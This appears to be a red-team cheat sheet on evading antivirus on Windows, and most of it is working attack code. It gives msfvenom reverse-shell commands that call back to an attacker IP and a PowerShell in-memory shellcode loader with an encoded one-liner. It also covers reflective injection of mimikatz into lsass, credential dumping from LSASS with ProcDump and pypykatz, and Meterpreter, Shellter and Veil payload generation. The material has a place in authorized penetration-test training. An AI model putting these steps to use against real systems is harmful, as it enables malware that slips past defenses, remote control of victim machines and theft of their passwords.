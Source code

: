 # AV Evasion in Practice

## Windows PE Analysing

* Use msfvenom Reverse Shell
* VirusTotal Upload `https://www.virustotal.com/gui/home/upload`
* Antiscan Me `https://antiscan.me` (4 Uploads/ Day)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
```

## UPX

* Packer for executeables
* ` https://upx.github.io/`

```bash
sudo apt install upx-ucl
```

## Obfuscator

* EnigmaProtector
* Comercial Tool `https://www.enigmaprotector.com/en/home.html`

## Powershell AV ByPass Techniques

* **Limitation**: Powershell x86
* Use Powershell x86 Template Script
* Implant Reverse-Shell with In-Memory-Injection (VirtualAlloc, memset, CreateThread)
  * Use Msfvenom to create a reverse shell -f powershell
  * Add Shellcode `<place your shellcode here>`
  * Modify $var to obfuscate the malicous code
* Make Powershell Onliner `https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py`
* Set `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`
* Run Powerhell Script to spawn Reverse Shell without AV Evasion

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.192 LPORT=443 -f powershell
```

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$windoof = 
  Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$shellcode = #<place your shellcode here>; 

$size = 0x1000;

if ($shellcode.Length -gt 0x1000) {$size = $shellcode.Length};

$x = $windoof::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($shellcode.Length-1);$i++) {$windoof::memset([IntPtr]($x.ToInt32()+$i), $shellcode[$i], 1)};

$windoof::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

```bash
python3 tools/py-encode.py --script tools/av-bypass-resershell.ps1
JABjAG8AZABlACAAPQAgACcACgBbAEQAbABsAEkAbQBwAG8...
```

```powershell
# Run ps1
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
./av-bypass-resershell.ps1
# Alternative base64 encode ps1
powershell -enc  JABjAG8AZABlACAAPQAgACcACgBbAEQAbABsAEkAbQBwAG8...
```

## Powersploit AV ByPass Techniques (Not working)

* Inject EXE or DLL into powershell
* Use [Powersploit Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)

Load Mimikatz.exe and run it locally. Forces ASLR on for the EXE.

```powershell
# Attack
# Read mimikatz into bytes and convert into Base64 string
$PEBytes = [IO.File]::ReadAllBytes('mimikatz.exe')
$Base64s = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($PEBytes))
# Victim
# Load mimikatz and run it within powershell
$PEBytes = [System.Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($Base64s)) 
Import-Module .\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "" -ForceASLR
```

Refectively load DemoDLL_RemoteProcess.dll in to the lsass process on a remote computer.

```powershell
$PEBytes = [IO.File]::ReadAllBytes('DemoDLL_RemoteProcess.dll')
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ProcName lsass -ComputerName Target.Local
```

## Dump LSASS with Sysinternal ProcDump AV ByPass

* **Limitation**: Requires SeDebugPrivilege
* Use [Sysinternal Proddump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)
* Use Mimikatz to dump hashes
* From [dumping-lsass](https://blog.cyberadvisors.com/technical-blog/attacks-defenses-dumping-lsass-no-mimikatz/)

```powershell
# Victim
# Dump hashes cached in LSASS memory
tasklist | findstr lsass
# or
get-process lsass
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1296      26     7148      51752               580   0 lsass
procdump.exe -accepteula -ma 580 lsass.dmp

# Attacker
# Load dumped logon passwords
pypykatz lsa minidump lsass.DMP

# or mimikatz
sekurlsa::minidump lsass.dmp
log lsass.txt
sekurlsa::logonPasswords
```

## Automate AV Evasion with Shellter x86

* **Limitation**: Require x86, 32bit windows only
* Windows Tool Download `https://www.shellterproject.com/download/
* Use Meterpreter Reverse Shell Handler


```bash
# Kali
sudo apt install shellter
```

```bash
# Meterpreter 
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
meterpreter > shell
```

## Automate AV Evasion with Veil Framework

* **Limitation**: Require x86

```bash
$ veil -t Evasion -p go/meterpreter/rev_tcp.py --ip 127.0.0.1 --port 4444
```
